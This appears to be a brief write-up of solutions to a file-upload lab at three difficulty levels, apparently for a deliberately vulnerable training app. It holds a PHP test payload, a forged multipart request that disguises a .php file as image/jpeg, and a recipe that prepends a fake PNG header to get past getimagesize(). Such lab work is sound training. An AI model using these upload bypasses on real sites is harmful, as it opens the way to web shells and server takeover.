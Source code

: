 # File Upload

## low

```php
<?php phpinfo(); ?>
```

## medium

```
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo(); ?>
```

## high

bypass `getimagesize()` with a dummy png header `fakepng.asm`

```sh
nasm -f bin -o fake.png fakepng.asm
echo -n "<?php phpinfo();?>" | cat fake.png - > a.png
```

then see `fi.md` to exploit it
